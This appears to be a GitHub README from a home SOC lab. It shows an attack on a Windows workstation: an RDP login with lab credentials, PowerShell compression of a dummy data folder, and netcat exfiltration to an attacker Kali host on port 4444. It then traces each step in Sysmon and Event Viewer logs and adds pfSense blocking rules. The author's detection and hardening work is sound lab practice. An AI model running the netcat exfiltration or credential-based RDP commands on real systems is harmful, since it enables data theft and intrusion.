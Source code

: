 # Active Directory Attack Playbook (Using RDP and Data Exfiltration)

## **Overview**

- **Target:** Windows Workstation (within the soc.lab domain)
  - IP Address: 192.168.10.20 
  - Domain: `soclab.local`

- **Attacker: Kali Linux**
  - IP Address: 192.168.20.30

From the last brute force attack:
- The attacker has successfully discovered user credentials.
- The attacker gains remote access through RDP (Remote Desktop Protocol).

We can see in the screenshot below that the Kali Linux machine was successfully logged in and is now inside the victim's system.

![kali_hacked_windows10](https://github.com/user-attachments/assets/1d1e42ed-2628-4dcc-9d2f-7f88a6604d40)

## **Data Exfiltration Process**

### 1. Establishing a Remote Desktop Session

Gain remote access to the target Windows 10 workstation via RDP using the discovered credentials. The following command is used to initiate the RDP session:

```bash
xfreerdp3 /u:labadmin /p:Root1234! /v:192.168.10.20
````
Once logged into the target system, a PowerShell command is executed to compress the sensitive data into a ZIP file:

```bash
powershell Compress-Archive -Path "C:\dummy\data" -DestinationPath "C:\dummy\data.zip"
```

The data exfiltration is performed using Netcat to establish a direct connection between the Victmin and Kali:

On kali:

```bash
nc -lvnp 4444 > exfil_data.zip
```
On Windows Victmin machine:

```bash
Get-Content -Path "C:\dummy\data.zip" | nc 192.168.20.30 4444
```


## **Monitoring Windows Logs**

**1. Credential Validation Attempt:**
- We can see that the attacker with the name: kali attempted to validate credentials for the labadmin user, which was logged as a successful authentication in the Windows Event Viewer, with Error Code: 0x0 (Success):

![Succefull_validated](https://github.com/user-attachments/assets/4adf116e-0ef2-429e-938c-637fb25e51be)


**2. Kerberos Ticket Granting Ticket (TGT) Request**

- Following successful authentication, a Kerberos TGT request was logged, which means the attacker now has a TGT issued for labadmin, allowing further access to domain resources.

![kerberos](https://github.com/user-attachments/assets/c4501f99-27a2-4924-9537-f8f9c520d466)

**3. Disabling the Windows Firewall (Sysmon)**

After gaining access, I analyzed Sysmon logs to detect further suspicious activity. At 02:56:25 (UTC), I found an entry showing that the attacker executed  super suspissious the netsh command to disable the Windows Firewall across all profiles.

This action suggests that the attacker was attempting to weaken the system's network to facilitate outbound connections.

Here is the Sysmon Event ID 1 (Process Creation) log:

![firewall](https://github.com/user-attachments/assets/8f279c2e-edd7-42e6-ae79-7cc8fc1c233e)



**4. File Creation and Directory Logs (Sysmon)**

- To gain deeper insights into user activities, I turned to Sysmon logs, which provided a detailed process and deeper information, looking for Event ID 1 (Process Creation).

- With that, I found an entry that shows the attacker used PowerShell to create a compressed archive named data.zip from a directory named data. This occurred at 02:57:18 (UTC).

- Here is the Sysmon Event ID 1 (Process Creation) log:

![Datazip](https://github.com/user-attachments/assets/dfe40ac0-a367-46d9-867a-e8619a491b94)


This confirms that the attacker compressed sensitive files into a .zip archive for potential exfiltration.


**5. Suspicious Network Connection (Sysmon)**

- After that, just 1 miute right after, in the Sysmon logs, I found a suspicious network connection logged under Event ID 3 (Network Connection). This entry shows that the Windows machine (192.168.10.20) established a connection to the kali’s IP address (192.168.20.30) over port 4444, which is a non-standard port often used in reverse shells and data exfiltration activities, which may mean that the attacker tried to send the data.zip fille on this Network Connection.

Here we can see the Sysmon Event ID 3 (Network Connection) log:

![netcat](https://github.com/user-attachments/assets/35cc0c0e-55c7-4c0c-8972-4db73f1b77f2)



## **Firewall Rules on pfSense:**

1- **Create an Alias for Internal Systems:**

- ![rule1](https://github.com/user-attachments/assets/a05efab9-6c65-46b9-9ba9-350ee7470d62)

Explanation:
 - This limits RDP access to trusted internal devices (from Network: 192.168.10.0/24)


2- **Block Unauthorized Kerberos Requests:**

- ![rule2](https://github.com/user-attachments/assets/d3a12053-ea1f-483f-ad70-11f24596919b)

Explanation:
- This blocks port 4444 and other non-standard ports that kali used for reverse shells.


3- **Limit External and Internal LDAP Queries:**

- ![rule3](https://github.com/user-attachments/assets/98eeeb87-f991-49f5-8b85-fcb567f4de7b)


Explanation:
-  This prevents exfiltration via FTP/SSH/HTTP/S.


**Note:** In this experiment, CrowdSec was disabled to allow this action to proceed, but the rules are on the [configs directory](https://github.com/NunooFerreira/SOC-Lab-Home-Cybersecurity-Monitoring/blob/main/configs/CrowdSec_configs/custom_exfiltration_watch.yaml).









